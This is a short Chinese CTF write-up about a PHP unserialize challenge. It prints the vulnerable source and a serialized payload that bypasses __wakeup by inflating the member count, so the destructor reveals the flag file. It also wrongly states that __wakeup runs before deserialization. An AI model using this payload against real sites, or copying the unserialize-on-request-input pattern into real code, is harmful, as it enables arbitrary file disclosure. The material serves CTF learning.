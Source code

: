 # WP
题目是这样的一段代码  
```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}
```
1. 题目已经说明flag的位置，wakeup函数会在反序列化前调用，会将类内部的x的值修改为当前路径，在类销毁时会显示路径x，hilight_file会显示路径文件的内容，所以要传入x的值为flag的位置，并且要绕过wake。
2. 构造出需要的x，并且将其序列化
![alt text](image.png)  
3. 传入参数x的值为O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}，第二个1表示成员数量，修改为2后与实际成员数量不同会绕过。  
![alt text](image-1.png)
